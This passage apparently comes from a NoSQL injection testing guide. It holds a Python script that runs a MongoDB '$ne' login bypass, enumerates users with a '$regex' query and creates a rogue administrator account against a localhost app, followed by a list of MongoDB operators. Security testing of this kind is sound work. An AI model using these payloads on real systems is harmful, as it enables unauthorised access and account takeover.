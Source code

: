 ### 6. Python Automation Script

```python
import requests
import json

base_url = "http://localhost:5001"

# Test 1: Login bypass
print("🔥 Testing NoSQL Login Bypass...")
login_payload = {
    "username": {"$ne": None},
    "password": {"$ne": None}
}
response = requests.post(f"{base_url}/api/login", json=login_payload)
print(f"Login Bypass: {response.status_code} - {response.json()}")

# Test 2: User enumeration
print("\n🔥 Testing User Enumeration...")
response = requests.get(f"{base_url}/api/users", params={
    "search[username][$regex]": ".*"
})
print(f"User Enum: {response.status_code} - Found {len(response.json())} users")

# Test 3: Create malicious user
print("\n🔥 Testing Privilege Escalation...")
evil_user = {
    "username": "nosql_hacker",
    "password": "hacked123",
    "role": "Administrator",
    "isAdmin": True
}
response = requests.post(f"{base_url}/api/users", json=evil_user)
print(f"Evil User: {response.status_code} - {response.json()}")
```

## 🎯 MongoDB-Specific Operators to Test

### Comparison Operators

- `$eq` - Equal
- `$ne` - Not equal
- `$gt` - Greater than
- `$gte` - Greater than or equal
- `$lt` - Less than
- `$lte` - Less than or equal
- `$in` - In array
- `$nin` - Not in array

### Logical Operators
